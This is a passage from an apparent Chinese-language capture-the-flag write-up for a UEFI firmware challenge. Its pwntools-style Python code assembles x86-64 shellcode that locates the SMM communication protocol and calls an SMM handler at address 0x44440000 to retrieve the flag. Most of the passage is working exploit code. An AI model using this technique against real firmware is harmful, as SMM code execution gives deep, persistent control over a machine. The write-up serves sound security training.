 ```python
    lea rsi, [rip + temp_buf];
    mov rcx, 0x20;
    cld; // clear flags
    rep movsb; // mov $rcx bytes from $rsi to $rdi

    mov r15, [rip + allocated_buf];
    ret; // don't forget to return to Binexec.efi

temp_buf:
    .octa {gEfiSmmCowsayCommunicationGuid};
    .quad 0x100;
    .quad 0x44440000;

allocated_buf:
""")
)[14]
lianpwn.lg("allocated_buf", allocated_buf)
```
#### STEP 2: Access 0x44440000 with SmmCommunication

在上面代码的基础上，现在已经获得了布置好的 Buffer，调用 `mSmmCommunication->Communicate` 即可获得 flag：

```python
lianpwn.lg_inf("STEP 2: Access 0x44440000 with SmmCommunication")
execute_shellcode(
    asm(f"""
    // LocateProtocol(gEfiSmmCommunicationProtocolGuid, NULL, mSmmCommunication)
    lea rcx, [rip + guid_buf];
    xor rdx, rdx;
    lea r8, [rip + temp_buf];
    mov rax, {LocateProtocol_addr};
    call rax;

    // mSmmCommunication->Communicate(this, Buffer, NULL);
    mov rcx, [rip + temp_buf];
    mov rdx, {allocated_buf};
    xor r8, r8;
    mov rax, [rip + temp_buf];
    mov rax, [rax];
    call rax;

    ret;

guid_buf:
    .octa {gEfiSmmCommunicationProtocolGuid};

temp_buf:
"""),
    cowsay=True,
)
```
